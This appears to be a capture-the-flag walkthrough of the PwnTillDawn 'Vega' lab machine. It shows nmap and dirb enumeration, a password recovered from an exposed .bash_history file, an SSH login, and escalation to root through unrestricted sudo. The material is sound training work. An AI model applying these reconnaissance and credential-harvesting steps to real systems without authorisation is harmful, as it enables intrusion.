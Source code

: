 ```yaml
---
categories: [PwnTillDawn]
tags: [Password Bruteforce, Hid&Trial, PrivEsc]  
img_path: Vulnhub-Files/img/
image:
  path: Vega/Untitled.png
  alt: PwnTillDawn Machine ➡️ https://www.wizlynxgroup.com/ https://online.pwntilldawn.com/
---
```


## Description ⤵️ 

This is a <kbd>*Hollywood*</kbd> machine writeup/walkthrough, from PwnTillDawn platform -> https://online.pwntilldawn.com/ with is maintain through wizlynx group -> https://www.wizlynxgroup.com/ .


## Port Scan Results ⤵️

```bash
**┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Sun Oct 15 15:37:40 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.222
Nmap scan report for 10.150.150.222
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:56:59:c5:9a:de:f4:a9:b7:8f:34:4b:a2:21:24:71 (RSA)
|   256 1b:e8:16:d4:dc:a6:7a:3e:5d:6f:f2:95:5a:59:08:9a (ECDSA)
|_  256 9c:35:dd:da:ee:a9:b4:0b:55:68:45:fd:8f:85:35:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home Page
8089/tcp  open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:19:54
|_Not valid after:  2022-10-24T09:19:54
|_http-server-header: Splunkd
|_http-title: splunkd
10000/tcp open  http     MiniServ 1.941 (Webmin httpd)
|_http-title: Site does not have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```
{: .nolineno}

## Web Enumeration ⤵️

I started doing directory traversal and I got some results from the `/home` directories →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ dirb 'http://10.150.150.222/' 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 15 20:55:21 2023
URL_BASE: http://10.150.150.222/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.150.150.222/ ----
+ http://10.150.150.222/.bash_history (CODE:200|SIZE:2235)                                                                                       
+ http://10.150.150.222/.bashrc (CODE:200|SIZE:3771)                                                                                             
==> DIRECTORY: http://10.150.150.222/.cache/                                                                                                     
+ http://10.150.150.222/.profile (CODE:200|SIZE:807)                                                                                             
+ http://10.150.150.222/0 (CODE:200|SIZE:82726)                                                                                                  
+ http://10.150.150.222/admin (CODE:302|SIZE:0)                                                                                                  
+ http://10.150.150.222/catalog (CODE:302|SIZE:0)                                                                                                
+ http://10.150.150.222/checkout (CODE:302|SIZE:0)                                                                                               
+ http://10.150.150.222/cms (CODE:200|SIZE:82740)                                                                                                
+ http://10.150.150.222/contact (CODE:200|SIZE:28351)                                                                                            
+ http://10.150.150.222/home (CODE:200|SIZE:80260)                                                                                               
+ http://10.150.150.222/Home (CODE:301|SIZE:0)                                                                                                   
+ http://10.150.150.222/index.php (CODE:200|SIZE:82738)                                                                                          
^C> Testing: http://10.150.150.222/known_hosts
```
{: .nolineno}

Lets check `.bash_history` here →

![Untitled](Vega/Untitled%201.png)

I got a mysql password and username as →

```bash
vega : puplfiction1994
```
{: .nolineno}

I tried this credentials for SSH login and I got it as wrong credentials and I also I tried to download the file dumpmagento.sql to the system and the file was of 0 bytes →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$  ls -al dumpmagento.sql 
-rw-r--r-- 1 kali kali 0 Oct 17 20:30 dumpmagento.sql
```
{: .nolineno}

>It means that → 
>
>1. If the database is empty thats why it is of 0 bytes or .
>2. If the password or the login credentials is wrong that is why.
{: .prompt-tip }

I checked the site again and I got something related to the password like this →

![Untitled](Vega/Untitled%202.png)

Now I compared it with password and got to know that the bash_history entry is of human error so lets use this password insted → 

```bash
vega : pulpfiction1994
```
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ ssh vega@10.150.150.222
vega@10.150.150.222 is password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 17 16:24:55 UTC 2023

  System load:  0.23               Processes:            186
  Usage of /:   43.2% of 19.56GB   Users logged in:      1
  Memory usage: 21%                IP address for ens33: 10.150.150.222
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

51 packages can be updated.
31 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Apr 21 10:11:55 2020
vega@vega:~$ whoami
vega
vega@vega:~$ id
uid=1000(vega) gid=1000(vega) groups=1000(vega),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
vega@vega:~$ sudo -l
[sudo] password for vega: 
Matching Defaults entries for vega on vega:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vega may run the following commands on vega:
    (ALL : ALL) ALL
vega@vega:~$ sudo su -
root@vega:~# whoami
root
root@vega:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vega:~# cd /root
root@vega:~# ls -al
total 60
drwx------  7 root root 4096 May 14  2020 .
drwxr-xr-x 24 root root 4096 Oct 23  2019 ..
-rw-------  1 root root 2513 Apr 21  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  115 May 14  2020 CAM.shortcut
drwxr-xr-x  2 root root 4096 Sep  6  2019 .composer
-rw-r--r--  1 root root   41 Sep 27  2019 FLAG42.txt
drwx------  3 root root 4096 Oct  4  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep  6  2019 .local
-rw-------  1 root root  651 Apr  2  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep  6  2019 .selected_editor
drwx--x---  2 root root 4096 Oct 25  2019 .splunk
drwx------  2 root root 4096 Sep  6  2019 .ssh
-rw-------  1 root root 2085 Sep 27  2019 .viminfo
root@vega:~#
```
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }